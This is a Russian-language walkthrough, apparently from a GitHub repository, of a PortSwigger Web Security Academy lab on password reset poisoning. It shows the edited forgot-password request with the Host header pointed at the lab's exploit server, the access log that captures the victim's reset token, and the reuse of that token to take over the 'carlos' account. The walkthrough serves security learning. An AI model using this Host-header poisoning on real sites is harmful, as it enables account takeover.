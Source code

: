 Перейдем на уязвимый ресурс, и пройдем процедуру восстановления пароля у УЗ `wiener`

Перейдем в `Exploit-server` ->` Email client` и увидим ссылку для восстановления пароля -
```
https://0ae20082039ba5588006e49b0063009f.web-security-academy.net/forgot-password?temp-forgot-password-token=brhg1vr56o5a81kwskqlndafm96tgb4l
```
Перейдем по ней введем новый пароль и его подтвердим

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/3.%20Basic%20password%20reset%20poisoning/pics%20for%20walkthrough/1.png)

Далее перейдем в `Proxy` -> `HTTP history` и найдем следующий запрос 
```
POST /forgot-password HTTP/2
...
csrf=NxV9aw3wRKP48AqH7wHLhYFtp4CtTOhD&username=wiener
```
и отправим его в `Repeater`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/3.%20Basic%20password%20reset%20poisoning/pics%20for%20walkthrough/2.png)

Заменим заголовок хоста на 
```
Host: example.com
```
и отправим запрос
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/3.%20Basic%20password%20reset%20poisoning/pics%20for%20walkthrough/3.png)

А  тем временем в `Email client` пришла новая ссылка на изменение пароля от аккаунта и заметим, что адресация идет на `example`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/3.%20Basic%20password%20reset%20poisoning/pics%20for%20walkthrough/4.png)

Далее Перейдем в `Exploit server` и возьмем его адрес, и вставим в `Host` адрес нашего Exploit-server'а


`exploit-0ae70086035ea5e58002e32501930009.exploit-server.net
`

и изменим юзера на карлоса
```
POST /forgot-password 
Host: exploit-0ae70086035ea5e58002e32501930009.exploit-server.net
csrf=NxV9aw3wRKP48AqH7wHLhYFtp4CtTOhD&username=carlos
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/3.%20Basic%20password%20reset%20poisoning/pics%20for%20walkthrough/5.png)

Далее перейдем в `Exploit server` -> `access logs`
и увидим там следующий лог
```
10.0.3.165      2024-06-21 12:29:24 +0000 "GET /forgot-password?temp-forgot-password-token=d8uks8p8nsl8sa8hqd56w9d4zwydc1rd HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```
по которому, мы можем узнать `temp-forgot-password-token=d8uks8p8nsl8sa8hqd56w9d4zwydc1rd`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/3.%20Basic%20password%20reset%20poisoning/pics%20for%20walkthrough/6.png)

Далее воспользуемся старой ссылкой 
```
https://0ae20082039ba5588006e49b0063009f.web-security-academy.net/forgot-password?temp-forgot-password-token=brhg1vr56o5a81kwskqlndafm96tgb4l
```
и изменим значение токена на токен `carlos`'а
```
https://0ae20082039ba5588006e49b0063009f.web-security-academy.net/forgot-password?temp-forgot-password-token=d8uks8p8nsl8sa8hqd56w9d4zwydc1rd
```

Вставляем данную ссылку в URL, придумываем новый пароль для карлоса

входим по новым придуманным кредам, и получаем уведомление об успешно выполненной лабораторной работе


![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/3.%20Basic%20password%20reset%20poisoning/pics%20for%20walkthrough/7.png)
